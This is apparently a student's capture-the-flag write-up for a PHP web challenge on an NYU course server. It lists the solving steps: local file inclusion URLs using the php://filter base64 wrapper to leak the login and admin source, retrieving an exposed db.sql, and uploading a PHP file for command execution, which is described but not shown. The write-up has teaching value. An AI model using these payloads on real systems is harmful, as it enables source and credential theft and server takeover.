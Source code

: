## Steps:

1. Leak source code
    - http://offsec-chalbroker.osiris.cyber.nyu.edu:1252/index.php?page=php://filter/convert.base64-encode/resource=login
    - Home and about do not have anything particularly interesting in them
2. Retrieve db.sql from the server
    - http://offsec-chalbroker.osiris.cyber.nyu.edu:1252/db.sql
3. Retrieve admin code
    - http://offsec-chalbroker.osiris.cyber.nyu.edu:1252/index.php?page=php://filter/convert.base64-encode/resource=admin
4. Upload file that can retrieve the flag
    - Created an exploit php file that allowed me to run arbitrary commands on the server
